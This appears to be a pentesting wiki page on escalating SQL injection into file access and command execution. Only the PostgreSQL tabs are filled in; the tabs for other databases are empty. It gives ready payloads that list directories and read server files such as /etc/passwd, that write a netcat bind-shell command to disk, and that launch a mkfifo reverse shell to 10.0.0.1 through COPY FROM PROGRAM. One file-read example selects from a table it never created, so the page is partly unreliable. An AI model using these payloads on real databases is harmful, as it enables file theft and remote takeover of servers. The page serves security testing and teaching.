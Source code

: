 # Exploit Databases

## Theory

When exploiting SQL injection vulnerabilities, you may be able to read/write files on the operating system. In some case you will be able to execute arbitrary command

## Practice

{% hint style="info" %}
All queries on this page can be used with different techniques as UNION or Blind based attacks
{% endhint %}

### Read Files

{% tabs %}
{% tab title="MySQL" %}
```sql

```
{% endtab %}

{% tab title="MSSQL" %}
```sql

```
{% endtab %}

{% tab title="OracleSQL" %}
```sql

```
{% endtab %}

{% tab title="PostgreSQL" %}
Earlier versions of Postgres did not accept absolute paths in pg_read_file or pg_ls_dir. Newer versions (as of [this](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a) commit) will allow reading any file/filepath for super users or users in the default_role_read_server_files group.
```sql
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```

Aleternatilvly, we may use the `COPY` command
```sql
CREATE TABLE read_files(output text);
COPY read_files FROM ('/etc/passwd');
SELECT * FROM temp limit 1 offset 0;
```
{% endtab %}

{% tab title="SQLite" %}
```sql

```
{% endtab %}
{% endtabs %}

### Write Files

{% tabs %}
{% tab title="MySQL" %}
```sql

```
{% endtab %}

{% tab title="MSSQL" %}
```sql

```
{% endtab %}

{% tab title="OracleSQL" %}
```sql

```
{% endtab %}

{% tab title="PostgreSQL" %}
We may use the `COPY` command
```sql
COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
```

Or, using lo* commands
```sql
SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
```
{% endtab %}

{% tab title="SQLite" %}
```sql

```
{% endtab %}
{% endtabs %}


### Commmand Execution

{% tabs %}
{% tab title="MySQL" %}
```sql

```
{% endtab %}

{% tab title="MSSQL" %}
```sql

```
{% endtab %}

{% tab title="OracleSQL" %}
```sql

```
{% endtab %}

{% tab title="PostgreSQL" %}
To run system commands on Linux or Windows, we need to use the `PROGRAM` parameter.
```sql
CREATE TABLE shell(output text);
COPY shell FROM PROGRAM ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f’;
```
{% endtab %}

{% tab title="SQLite" %}
```sql

```
{% endtab %}
{% endtabs %}